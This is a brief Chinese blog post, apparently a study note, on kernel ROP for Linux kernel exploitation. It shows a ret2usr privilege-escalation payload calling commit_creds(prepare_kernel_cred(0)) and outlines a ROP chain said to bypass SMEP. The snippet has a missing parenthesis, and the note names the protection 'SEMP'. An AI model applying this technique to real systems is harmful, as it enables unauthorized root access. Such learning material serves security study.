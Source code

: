 ```yaml
---
layout: post
title: kernelrop的完整流程
excerpt: "kernel pwn"
categories: [知识总结]
comments: true
---
```

kernel rop 可以用来绕过SEMP

在传统的ret2usr中,内核流直接在用户空间运行如下代码进行权限提升
```
void __attribute__((regparm(3))) payload() {
        commit_creds(prepare_kernel_cred(0);
}
```
kernel rop链因该是如下样子
```
pop %rdi;ret
null
addr of prepare_kernel_cred()
mov %rax,%rdi;ret
addr of commit_creds()
...
```

